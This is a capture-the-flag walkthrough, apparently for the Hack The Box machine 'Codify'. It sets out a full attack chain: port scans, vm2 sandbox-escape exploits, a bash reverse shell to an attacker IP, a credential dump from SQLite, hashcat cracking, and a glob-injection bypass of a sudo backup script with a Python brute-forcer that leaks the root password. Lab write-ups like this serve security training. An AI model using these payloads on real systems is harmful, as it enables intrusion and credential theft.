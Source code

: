 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.239                # Fast full TCP port scan
nmap -p 22,80,3000 -sCV 10.10.11.239                  # Version & script scan on identified ports
head -1 /etc/hosts                                    # Confirm domain mapping to codify.htb
```

---

## 🧪 CVE-Based Exploitation

**Relevant CVEs for vm2 (v3.9.16):**

- [CVE-2023-32314](https://github.com/p4p1/vm2-cve-2023-32314)
- [CVE-2023-30547](https://github.com/p4p1/vm2-cve-2023-30547)
- [CVE-2023-37466](https://github.com/p4p1/vm2-cve-2023-37466)
- [CVE-2023-37903](https://github.com/p4p1/vm2-cve-2023-37903)

> Used payloads from these to gain command execution via sandbox escape.

---

## 🐚 Reverse Shell Access

```bash
# Listener on attacker box
nc -lvnp 443

# Payload sent via web shell
bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"

# Upgrade reverse shell
script /dev/null -c bash
stty raw -echo; fg
```

> Reverse shell lands as `svc` user.

---

## 🧼 Local Enumeration

```bash
ls -la                                        # Basic file listing
cd /home/joshua/                              # Access check for next user
ls /var/www                                   # Discover web app directories
ls editor/ contact/                           # Review contents of Node.js apps
cat index.js | grep 'app\.'                   # View all express routes in contact app
```

---

## 🧩 SQLite Enumeration

```bash
sqlite3 tickets.db                            # Open the database
.tables                                       # View all tables
.schema users                                 # Get table structure
select * from users;                          # Dump credentials
```

---

## 🔓 Cracking the User Hash

```bash
# Save hash
echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > joshua.hash

# Crack with hashcat (bcrypt mode 3200)
hashcat -m 3200 joshua.hash rockyou.txt
```

> Cracked to: `spongebob1`

---

## 🔑 [Privilege Escalation to Joshua](SSH)

```bash
su - joshua                                    # Use cracked password
sshpass -p spongebob1 ssh joshua@codify.htb    # Alternative SSH access
```

---

## 🔧 Privilege Escalation to Root

### 💡 Script Abused: `/opt/scripts/mysql-backup.sh`

```bash
sudo -l                                        # View sudo privileges
sudo /opt/scripts/mysql-backup.sh             # Run vulnerable backup script
```

#### 🧨 Bypass Password Check

```bash
echo "*" | sudo /opt/scripts/mysql-backup.sh  # Bypass using bash glob injection
```

> Works because `[[ $USER_PASS == $DB_PASS ]]` lacks quotes.

---

#### 🔭 Leak Root Password via Process Watch

```bash
# On attacker box
python -m http.server 80 -d /opt/

# On target
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

> Watch for `-p<password>` appearing in `mysql` or `mysqldump` command.

---

#### 🧠 Brute-Force Root Password with Python

```python
# leak_password.py
import subprocess, string
leaked_password = ""
while True:
    for c in string.printable[:-5]:
        if c in '*\\%': continue
        print(f"\r{leaked_password}{c}", end="", flush=True)
        try:
            subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
            leaked_password += c
            break
    else: break
print(f"\nPassword: {leaked_password}")
```

---

## 🧙‍♂️ Root Access

```bash
su -                                           # With leaked/brute-forced password
cat /root/root.txt
```